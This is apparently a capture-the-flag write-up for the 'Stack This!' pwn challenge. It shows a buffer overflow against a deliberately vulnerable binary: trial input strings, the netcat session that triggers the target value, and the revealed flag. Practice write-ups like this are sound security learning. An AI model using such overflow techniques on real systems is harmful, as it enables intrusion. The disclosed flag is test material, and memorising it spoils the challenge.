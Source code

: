 # Stack This! (100)
#### pwn - Virginia TSA Technosphere 2022 CTF

## Challenge description:
> Quite ironically, the CTFd engineers are hard at work on a new utility for [stack smashing](https://wiki.c2.com/?StackSmashing) and seem to have put a stack vulnerability into the very same program.
> 
> Download file: [stackthis](./../assets/stackthis)

## Solution 
We are given a binary and information to connect to a server with netcat.

After marking it as executable with `chmod +x stackthis`, running the binary asks for a name and returns a magic number. It also says entering a text with a "magic number" of 1734437990 will return the flag.

Using trial-and-error with the local binary, I found the string returning 1734437990. This was over five characters as to overflow the buffer allowing for stack-smashing.

```
AAAAAAAA = 1094795585
BBBBBBBBB = 1111638594
ZZZZZZZZZZ = 1515870810
aaaaaaaaaaa = 1633771873
zzzzzzzzzzzz = 2054847098
fffffffffffff = 1717986918
gggggggff = 1717987175
flag{flagflag} = 1734437990
```

Submitting this to the netcat server yielded the flag.

```
$ nc 0.cloud.chals.io 15343
*** CTFd StackSmasker Version .0001alpha

*** Since this is an alpha product, we are asking customers
    to keep all input limited to 5 characters or less

*** Rumor has it that getting it to print 1734437990 might produce a
    flag, though.

What is your name? flag{flagflag}
magicNumber: 1734437990
******************
```

<details> 
    <summary>Flag</summary>
flag{cnoevil}
</details>
